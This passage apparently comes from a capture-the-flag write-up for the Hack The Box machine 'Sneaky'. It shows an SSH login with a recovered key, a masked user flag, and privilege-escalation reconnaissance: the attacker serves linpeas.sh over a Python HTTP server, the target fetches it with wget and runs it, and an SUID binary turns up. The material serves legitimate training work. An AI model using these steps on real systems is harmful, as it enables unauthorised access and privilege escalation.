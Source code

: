 ```bash
luc@kali:~/HTB/Sneaky$ sudo chmod 600 sshkeyforadministratordifficulttimes
luc@kali:~/HTB/Sneaky$ ssh -i sshkeyforadministratordifficulttimes thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:cba4
load pubkey "sshkeyforadministratordifficulttimes": invalid format
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Jun 22 19:49:06 EEST 2020

  System load: 0.0               Memory usage: 5%   Processes:       179
  Usage of /:  9.9% of 18.58GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Your Hardware Enablement Stack (HWE) is supported until April 2019.
Last login: Sun May 14 20:22:53 2017 from dead:beef:1::1077
thrasivoulos@Sneaky:~$ id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) groups=1000(thrasivoulos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
thrasivoulos@Sneaky:~$ cat user.txt
9fe14f76************************
```

We've successfully logged in as `thrasivoulos` via SSH.

## Privilege escalation

`thrasivoulos` is in the `sudo` group, but we don't have his password so we can't actually use it.

```bash
luc@kali:~/HTB/Sneaky$ cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
luc@kali:~/HTB/Sneaky$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
thrasivoulos@Sneaky:/tmp$ wget http://10.10.14.9:8000/linpeas.sh
thrasivoulos@Sneaky:/tmp$ chmod +x linpeas.sh
thrasivoulos@Sneaky:/tmp$ ./linpeas.sh > linpeas.result
...
[+] Useful software
...
/usr/bin/gdb
...
[+] SUID - Check easy privesc, exploits and write perms
...
/usr/local/bin/chal
...
thrasivoulos@Sneaky:/tmp$ ls -lsa /usr/local/bin/chal
8 -rwsrwsr-x 1 root root 7301 May  4  2017 /usr/local/bin/chal
```
